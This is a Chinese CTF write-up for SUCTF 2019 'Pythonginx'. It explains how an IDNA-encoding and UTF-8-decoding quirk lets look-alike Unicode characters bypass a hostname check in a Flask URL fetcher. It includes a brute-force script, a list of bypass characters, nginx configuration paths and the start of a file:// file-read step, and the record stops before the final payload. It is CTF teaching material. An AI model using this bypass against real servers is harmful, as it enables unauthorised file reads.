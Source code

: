 ## [SUCTF 2019]Pythonginx

分析一下源代码

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
    </code>
    <!-- Dont worry about the suctf.cc. Go on! -->
    <!-- Do you know the nginx? -->
```

经过分析，我们需要使前面两个if条件为假，但是需要将第三个if为真

但是我们直接url中包含`suctf.cc`不可能绕过前面的if判断，肯定需要通过指定的方式将编码转化成`suctf.cc`的格式

我们观察一下如下代码：

```python
newhost.append(h.encode('idna').decode('utf-8'))
```

这里存在一个漏洞：`idna编码与utf-8解码漏洞`

https://www.cnblogs.com/cimuhuashuimu/p/11490431.html

我们可以使用脚本来获得idna编码与utf-8解码后与字符c相等的字符：



```python
import urllib
from urllib import parse
from urllib.parse import urlsplit, urlunsplit


def output():
    for x in range(65536):
        uni = chr(x)
        url = "http://suctf.c{}".format(uni)
        try:
            if get_url(url):
                print("uni: " + uni + " url:" + url)
                # print(uni)
        except:
            pass


def get_url(url):
    url = url
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    # 去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False


if __name__=='__main__':
    output()
```

输出：

```
uni: ℂ url:http://suctf.cℂ
uni: ℭ url:http://suctf.cℭ
uni: Ⅽ url:http://suctf.cⅭ
uni: ⅽ url:http://suctf.cⅽ
uni: Ⓒ url:http://suctf.cⒸ
uni: ⓒ url:http://suctf.cⓒ
uni: Ｃ url:http://suctf.cＣ
uni: ｃ url:http://suctf.cｃ
```

我们将这个字符进行url编码后即可使用：`%E2%92%B8`

这个时候我们可以绕过if了，但是我们如何才能获取到flag呢：

```python
if host == 'suctf.cc':
    return urllib.request.urlopen(finalUrl).read()
else:
    return "我扌 your problem? 333"
</code>
<!-- Dont worry about the suctf.cc. Go on! -->
<!-- Do you know the nginx? -->
```

注意下面的提示，nginx，所以我们需要知道nginx相关配置文件的路径

#### nginx常见配置文件

```nginx
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf
```

然后我们可以结合`file协议`来读取文件：





























